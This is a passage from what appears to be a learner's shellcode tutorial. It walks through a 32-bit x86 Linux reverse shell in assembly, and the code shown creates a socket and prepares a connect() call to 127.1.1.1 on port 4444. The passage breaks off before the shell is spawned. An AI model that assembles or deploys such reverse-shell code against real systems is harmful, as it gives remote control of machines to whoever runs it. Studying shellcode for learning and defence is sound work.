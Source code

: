 Requirements:

1. Create a socket
2. Call connect
3. Create file descriptors
4. Call execve

Surprisingly, a reverse shell is a bit simpler, and tends to be smaller than our bind couterpart. Without much optimization, this shellcode clocks in at 87 bytes, pretty good for a noob. It also doesn't contain any null bytes.


```
global _start

section .text

_start:
        ; int socketcall(int call, unsigned long *args)
        ; socketcall is syscall 102, or 0x66
        ; socket = 0x1
        xor eax, eax
        xor ebx, ebx
        mov al, 0x66

        ; int socket(int domain, int type, int protocol)
        push ebx
        push 0x1
        push 0x2

        ; set up args for socketcall
        mov ecx, esp
        inc bl
        int 0x80

        ; save the file descriptor returned by socket()
        mov edi, eax

connect:
        ; int socketcall(int call, unsigned long *args)
        ; Again, 0x66 for socketcall
        mov al, 0x66

        ; increase ebx to get 2 for AF_INET
        inc ebx

        ; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen)
        ; First, we need to create the sockaddr struct
        push 0x0101017f
        push word 0x5C11
        push word bx

        ; save the address of sockaddr
        mov esi, esp

        ; Now, let's push the addrlen (16)
        push 0x10

        ; Gotta push the sockaddr pointer now
        push esi

        ; Lastly, we need the socket file descriptor returned from
        push edi

        ; now, set up the right args for socketcall
        mov ecx, esp
```